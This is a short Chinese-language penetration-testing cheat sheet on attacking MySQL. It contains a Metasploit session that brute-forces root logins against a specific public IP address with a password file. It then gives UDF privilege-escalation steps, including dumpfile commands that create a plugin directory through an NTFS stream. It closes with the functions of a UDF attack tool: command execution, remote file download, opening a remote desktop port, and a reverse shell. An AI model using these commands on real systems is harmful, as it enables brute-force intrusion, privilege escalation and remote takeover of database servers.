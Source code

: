 ```shell
msfconsole
search mysql
use auxiliary/scanner/mysql/mysql_login
show options
set rhost 47.99.71.28
set username root
set pass_file /opt/mysql_pwd.txt
show options
exploit
```



## MYSQL

### UDF 提权

- （**基于 MYSQL 调用命令执行函数）**

- 读取网站数据库配置文件（了解其命名规则及查找技巧）

  - ```shell
    sql data inc config conn database common include 等
    ```

- 读取数据库存储或备份文件（了解其数据库存储格式及对应内容）  

  - @@basedir/data/数据库名/表名.myd

- 利用脚本暴力猜解（了解数据库是否支持外联及如何开启外联）

- 远程本地暴力猜解(支持外联)

- 服务器本地暴力猜解（不支持外联）

  - 上传爆破脚本到服务器进行服务器本地爆破。

- 利用自定义执行函数导出 dll 文件进行命令执行

  - select version() select @@basedir



- 手工创建 plugin 目录或利用 NTFS 流创建
  - select 'x' into dumpfile '目录/lib/plugin::INDEX_ALLOCATION';
  - 1.mysql<5.1 导出目录 c:/windows 或 system32
  - 2.mysql=>5.1 导出安装目录/lib/plugin/

#### 权限提升

- 手工创建 plugin 目录或利用 NTFS 流创建
  - select 'x' into dumpfile '目录/lib/plugin::INDEX_ALLOCATION';
  - 1.mysql<5.1 导出目录 c:/windows 或 system32
  - 2.mysql=>5.1 导出安装目录/lib/plugin/

```shell
功能说明:
MYSQL=>5.1
自动获取高版本mysq|调用函数路径(测试mysq|5.5)
MYSQL < =5.0默认为系统目录
自定义导出dll
默认udf自带函数
cmdshell执行cmd;
downloader下载者,到网上下载指定文件并保存到指定目录
open3389通用开3389终端服务,可指定端口(不改端C ]无需重启);
backshell反弹Shell;
ProcessView枚举系统进程;
KillProcess终止指定进程;
regread读注册表;
regwrite写注册表;
```